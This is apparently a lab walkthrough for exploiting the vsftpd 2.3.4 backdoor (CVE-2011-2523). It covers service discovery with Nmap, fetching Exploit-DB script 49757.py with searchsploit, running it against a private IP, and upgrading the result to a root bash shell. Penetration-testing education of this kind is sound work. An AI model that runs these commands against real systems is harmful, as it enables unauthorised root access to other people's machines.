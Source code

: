 # FTP Exploit:

1. ***First, let's identify the FTP Service with Nmap***

   ![Screenshot](https://github.com/user-attachments/assets/e998c03f-c81a-49ca-bcc6-e394ceedfe5d)
   - As we see, the FTP version is 2.3.4.
   - Anonymous login is allowed! :)

   - Now, let's use SearchSploit to see if there is any vulnerability for this FTP version:
     ```bash
     searchsploit vsftpd 2.3.4
     ```
   - We found a backdoor command execution vulnerability.
   - Let's bring the file to our folder location (in this case, the Desktop):
     ```bash
     searchsploit -m unix/remote/49757.py
     ```

   ![image](https://github.com/user-attachments/assets/55cb771a-3e36-45cb-85ac-9d306a653bca)
   - Take a look at the Python file.
   ![image](https://github.com/user-attachments/assets/f3e1b257-1cd0-4ae8-b9bb-df88c735dd7f)
   - We can see that the code will open a backdoor connection with the victim machine. There is a CVE for this bug:
     ```bash
     CVE: CVE-2011-2523
     ```
   - You can look it up and you will find it's a critical vulnerability.
   ![image](https://github.com/user-attachments/assets/69a4fb83-bfbd-4982-9e8e-4743188119c6)

2. ***Now let's exploit***

   - Let's give it a try and run the Python file with the machine IP:
     ```bash
     python2 49757.py 192.168.1.4
     ```
   - We will see that we get a reverse shell.
   - Let's make it prettier by running bash instead of shell:
     ```bash
     python -c "import pty; pty.spawn('/bin/bash')"
     ```
   - Now let's check our user with:
     ```bash
     whoami
     id
     ```
   - We will see that we are ROOT! :)
   ![image](https://github.com/user-attachments/assets/bc69af34-040d-477e-87f6-533112d78f14)
